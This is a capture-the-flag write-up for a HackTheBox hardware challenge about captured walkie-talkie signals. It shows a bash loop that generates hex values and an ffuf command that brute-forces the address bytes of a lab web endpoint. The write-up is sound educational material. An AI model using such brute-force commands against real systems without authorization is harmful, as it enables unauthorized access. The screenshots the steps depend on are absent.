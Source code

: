 ```yaml
---
title: "Walkie Hackie Challenge"
date: 2025-03-05 00:00:00
categories: [Hardware]
tags: [Hardware,Challenges,HackTheBox]
---
```


# Walkie Hackie

- Challenge description

![image.png](images/HTB/Hardware/walkie_hackie/image.png)

- it’s analog communication , it make 2 devices communicate over specific frequency
- now it’s radio data so we have to open it with signal analyzer.
- i tried to view the frequency domain using audacity but nothing
- let’s investigate the web app

![image.png](images/HTB/Hardware/walkie_hackie/image%201.png)

- let’s upload the files

![image.png](images/HTB/Hardware/walkie_hackie/image%202.png)

![image.png](images/HTB/Hardware/walkie_hackie/image%203.png)

```jsx
aaaaaaaa 73214693 a2ff84
aaaaaaaa 73214693 a1ff14
aaaaaaaa 73214693 b2ff24
aaaaaaaa 73214693 b1ff57
```

- the architecture of sent data  `aaaaaaaa` it’s start of data and payload is `73214693` and third and fourth sector are addresses
- all of that doesn’t matter , i think we have to brute force , so now let’s find the static parts and there is only dynamic parts that we will exploit
- let’s generate combinations

```jsx
for i in {0..9} {a..f}; do for j in {0..9} {a..f}; do echo $i$j; done; done > brute_force
```

![image.png](images/HTB/Hardware/walkie_hackie/image%204.png)

- this the request , let’s try to brute force with `ffuf`

```jsx
ffuf -u 'http://94.237.63.49:33549/transmit' -X POST -d 'pa=aaaaaaaa&sw=73214693&pl=FUZZ_1ffFUZZ_2' -H 'Content-Type: application/x-www-form-urlencoded' -w brute_force:FUZZ_1 -w brute_force:FUZZ_2 -fs 2831 -x http://localhost:8080
```

- after brute forcing

![image.png](images/HTB/Hardware/walkie_hackie/image%205.png)

- note: i found that any id ends with `f9` is valid

![image.png](images/HTB/Hardware/walkie_hackie/image%206.png)

